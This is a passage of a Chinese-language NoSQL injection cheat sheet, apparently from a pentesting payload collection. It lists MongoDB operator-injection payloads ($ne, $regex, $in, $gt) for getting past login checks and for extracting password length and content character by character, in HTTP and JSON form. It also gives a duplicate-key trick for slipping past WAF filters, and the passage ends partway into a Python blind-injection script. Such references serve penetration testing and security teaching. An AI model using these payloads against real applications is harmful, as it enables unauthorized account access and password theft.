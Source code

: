 ### 提取长度信息

使用 `$regex` 操作符注入有效载荷。当长度正确时，注入将起作用。

```
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
```

### 提取数据信息

使用 `$regex` 查询操作符提取数据。

* HTTP 数据

  ```
  username[$ne]=toto&password[$regex]=m.{2}
  username[$ne]=toto&password[$regex]=md.{1}
  username[$ne]=toto&password[$regex]=mdp

  username[$ne]=toto&password[$regex]=m.*
  username[$ne]=toto&password[$regex]=md.*
  ```

* JSON 数据

  ```json
  {"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
  {"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
  {"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}
  ```

使用 `$in` 查询操作符提取数据。

```json
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```

### WAF 和过滤器

**移除前置条件**：

在 MongoDB 中，如果一个文档包含重复的键，只有最后一个键值对会生效。

```js
{"id":"10", "id":"100"} 
```

在这个例子中，"id" 的最终值将是 "100"。

## 盲注 NoSQL

### 带 JSON 请求体的 POST 请求

Python 脚本：

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
```